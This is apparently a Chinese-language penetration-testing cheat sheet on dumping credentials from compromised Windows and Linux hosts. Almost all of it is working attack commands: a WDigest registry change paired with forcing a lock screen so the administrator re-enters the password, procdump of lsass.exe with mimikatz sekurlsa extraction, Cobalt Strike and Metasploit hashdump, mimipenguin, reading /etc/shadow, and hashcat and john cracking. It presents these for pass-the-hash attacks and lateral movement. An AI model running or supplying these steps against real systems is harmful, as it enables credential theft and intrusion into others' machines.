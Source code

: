 Mimikatz 是一款知名的密码获取工具，用于在 Windows 系统中提取凭据（例如明文密码、哈希值、票据等）。

dumplsass是一种技术用于从Windows操作系统中转储lsass.exe进程的内存内容。
>lsass.exe是Windows本地安全权限服务系统，是微软Windows 2000及以后版本中用于处理安全验证的进程。这个进程存储了用户账号的登录密码和其他安全敏感信息。

Mimikatz 可以基于dumplsass技术从内存中提取凭据信息，并可用于执行 Pass-the-Hash（PTH）和 Pass-the-Ticket（PTT）等攻击技术，从而获取用户权限并横向移动。
利用条件：需要系统权限system/root。
>CS和MSF中一般自带基于Mimikatz的封装，使用hashdump命令。



## **获取明文或密码HASH**
微软为了防止明文密码泄露发布了补丁KB2871997，关闭了Wdigest功能。当系统为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，此时可以通过修改注册表的方式抓取明文，但需要用户重新登录后才能成功抓取。


获取计算机登录过的用户的 密码 HASH，明文。
#### **Windows**
**mimikatz(win)：**
使用CS上线后自带的一键读取：右键或使用hashdump命令。
一些命令：<https://blog.csdn.net/weixin_40412037/article/details/113348310>
高版本无法直接读明文密码：
修改注册表，强制锁屏，等待管理员重新登陆账号密码。
```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\ /v UseLogonCredential /t REG_DWORD /d 1
```
此时CS中就可以抓取明文密码。
^
**CS获取用户的hash：**
获取密码哈希，cs中用hashdump命令。
可能获取失败要用administrator用户。

^ 
**MSF获取用户的hash：**

获取密码哈希，msf中用hashdump命令

![image-20240613160426225](http://cdn.33129999.xyz/mk_img/image-20240613160426225.png)

后一段，3008c后是密码，可以用在线网站解密Admin123
^
**手工获取内存中hash：**
```
1、读取lsass.exe进程的内存文件
Procdump64.exe -accepteula -ma lsass.exe lsass.dmp

2、将lsass.dmp放入mimikatz目录读取hash
mimikatz.exe "sekurlsa::minidump lsass.dmp"
sekurlsa::logonPasswords full
```




^
#### **Linux**
**mimipenguin(linux)：**
明文读取，大概率失败。
```
chmod 755 ./mimipenguin.sh
./mimipenguin.sh
```
root的hash
```
cat  /etc/shadow
```


^
## **破译hash**
Windows获取了hash就可以利用，无需破译明文。
在线：
https://www.somd5.com/
https://www.cmd5.com/
跑字典：hashcat
^
Linux获取hash和加密方式，可以破译明文。
1、跑字典：hashcat
```
查看加密方式和密文，只有root用户才能读取它
cat /etc/shadow

将第一行root的，复制到一个单独的文本文件中linux.txt，只包含散列值。

根据加密方式进行命令

linux sha512crypt $6$, SHA512 (Unix)加密方式：
hashcat -m 1800 sha512linux.txt p.txt

linux sha256crypt $5$, SHA256 (Unix)加密方式：
hashcat -m 7400 sha256linux.txt p.txt

linux下md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)加密方式：
hashcat -m 500 linuxmd5.txt p.txt

linux下bcrypt $2\*$, Blowfish加密方式：
hashcat -m 3200 linuxmd5.txt p.txt
```
2、用john
```
echo "$6$KHysqjWMnoaHJ4QW$p1cMTekiYb/6xA2u7j4jAD3m5shTPlPAtM6jyoex73MxxHXlms4X0874ml/gw6.LETsMs5oXLWyGeSAddx2N.." > 11.txt

cat 11.txt

john 11.txt
```


^
## **Mimikatz获取RDP登录记录的密码**
RDP远程登录时，勾选的保存我的凭证，可以被读取
<https://blog.csdn.net/weixin_44268918/article/details/132198123?spm=1001.2014.3001.5501>


